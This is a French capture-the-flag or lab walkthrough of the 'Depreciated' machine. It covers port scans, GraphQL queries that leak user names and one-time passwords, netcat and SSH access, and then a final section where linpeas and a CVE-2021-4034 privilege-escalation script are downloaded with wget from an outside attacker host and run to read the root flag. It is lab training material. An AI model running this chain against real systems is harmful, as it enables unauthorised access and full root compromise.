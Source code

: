 
# Depreciated

	sudo  masscan  -p1-65535,U:1-65535 192.168.231.170 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.231.170
	ffuf -u http://192.168.231.170/FUZZ -w  /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -e .php,.txt,.ini,.conf,.log -fc 403
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
    80/tcp open http nginx 1.18.0 (Ubuntu)  
    5132/tcp open unknown  
    8433/tcp open http Werkzeug httpd 2.0.2 (Python 3.8.10)

http://192.168.231.170 => "For sometime web UI will stay down, please use the CLI application on port 5132"

Mais dans le code source il y a une portion de code commentée, dont une ligne très intéressante : 

  > \<!--\<form method="post" action="http<span>://127.0.0.1:8433/graphql?query={login(username:$uname, password:$pswd)}" enctype="multipart/form-data"\>--\>

Vérification du port 5132 : 

    nc 192.168.231.170 5132 

Il n'y a qu'un simple prompt demandant un nom d'utilisateur et un OTP.

J'ai essayé d'envoyer des payloads GrapQL basiques depuis mon shell mais sans succès : 

    curl  'http://192.168.231.170:8433/graphql?query={__schema}'
    curl  'http://192.168.231.170:8433/graphql?query={status}'

En fait il suffisait directement de passer par l'interface web sur un navigateur, en faisant cela on tombe sur un éditeur GraphiQL où l'on peut directement travailler et voir nos résultats. Et en jouant avec l'autocomplétion on peut voir quelques fonctions comme "listUsers" et "getOTP" qui semblent très intéressantes.

    {
    	listUsers
    }
    
   On obtient : 

    {
      "data": {
        "listUsers": "['peter', 'jason']"
      }
    }

Plus qu'à tenter d'obtenir les OTP avec la deuxième fonction : 

    {
       getOTP(username:"peter")
    }

On obtient : 

    {
      "data": {
        "getOTP": "Your One Time Password is: CG5pzyISVOMvErUz"
      }
    }
  
  On peut avoir le OTP de Jason de la même manière.

En retournant sur le port 5132 mais cette fois avec les identifiants de Peter, on tombe sur un prompt avec quelques fonctions de gestion de messages.

    nc 192.168.231.170 5132
    $ help
    $ list
    $ read 2345
    ...

Tous les messages sont bloqués sauf le #234 qui indique indirectement le mot de passe de Peter.

    ssh -l peter 192.168.231.170
    cat local.txt

Élévation de privilèges classique avec un CVE :  

    wget http://192.168.45.239/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee resultat.txt
    less -R resultat.txt
    
    wget http://192.168.45.239/CVE-2021-4034.sh
    chmod u+x CVE-2021-4034.sh
    ./CVE-2021-4034.sh
    ls /root
    cat /root/proof.txt
